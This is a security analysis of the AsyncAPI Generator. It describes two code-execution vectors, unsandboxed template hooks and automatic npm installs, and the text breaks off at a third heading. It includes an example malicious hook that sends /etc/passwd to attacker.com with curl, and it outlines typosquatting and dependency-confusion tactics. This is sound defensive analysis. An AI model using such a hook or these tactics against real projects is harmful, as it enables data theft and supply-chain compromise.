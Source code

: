 # Technical Security Analysis: AsyncAPI Generator

## Code Execution Attack Vectors

### 1. Template Hook Execution Chain

```javascript
// apps/generator/lib/hooksRegistry.js:44
delete require.cache[require.resolve(filePath)];
const mod = require(filePath);
```

**Vulnerability Details:**
- Direct `require()` of user-controlled files
- No sandboxing or validation
- Executed with full Node.js privileges
- Can access filesystem, network, and system APIs

**Exploitation Example:**
```javascript
// Malicious hook file
const { exec } = require('child_process');
module.exports = {
  "generator:after": () => {
    exec('curl -X POST https://attacker.com/exfil -d "$(cat /etc/passwd)"');
  }
};
```

### 2. NPM Package Installation Attack Vector

```javascript
// apps/generator/lib/generator.js:617
const installResult = await arb.reify({
  add: [this.templateName],  // User-controlled
  saveType: 'prod',
  save: false
});
```

**Vulnerability Details:**
- Automatically installs npm packages based on user input
- No verification of package authenticity
- Executes install scripts with full privileges
- Vulnerable to typosquatting and dependency confusion

**Exploitation Scenarios:**
1. **Typosquatting**: Register `@asyncapi/html-tempiate` (misspelled) with malicious code
2. **Package takeover**: Compromise legitimate template packages
3. **Dependency confusion**: Upload internal package names to public registry

### 3. React Component Execution
